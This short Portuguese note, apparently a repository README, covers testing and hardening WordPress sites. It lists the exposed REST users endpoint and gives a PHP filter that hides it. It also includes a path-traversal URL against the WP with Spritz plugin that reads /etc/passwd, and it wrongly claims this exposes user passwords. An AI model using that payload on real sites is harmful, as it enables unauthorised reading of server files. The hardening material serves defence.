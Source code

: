 # Como testar a vulnerablidade de um site wordpress:

fonte: https://www.ti-enxame.com/pt/security/wordpress-4.7.1-rest-api-ainda-expondo-usuarios/961954884/

Dados sensiveis exposto:

https://dominios.x.x/wp-json/wp/v2/users

Resolução:

Use este trecho de código para esconder a lista de usuários e dar 404 como resultado, enquanto o resto das chamadas de api continuarão funcionando como estavam.

Acessar o arquivo 'functions.php' no Wordpress e adicinar o seguinte codigo:

add_filter( 'rest_endpoints', function( $endpoints ){
    if ( isset( $endpoints['/wp/v2/users'] ) ) {
        unset( $endpoints['/wp/v2/users'] );
    }
    if ( isset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] ) ) {
        unset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] );
    }
    return $endpoints;
});


# Como testar vulnerabilidade do servidor web:

Descobrir possivel versão do servidor web e senha de usuarios:

https://dominio.x.x//wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
    
# Como blindar o wordpress contra invasões:
    
https://pt.semrush.com/blog/como-blindar-o-seu-wordpress-contra-invasoes-evitando-perder-posicoes-no-google-passo-a-passo/



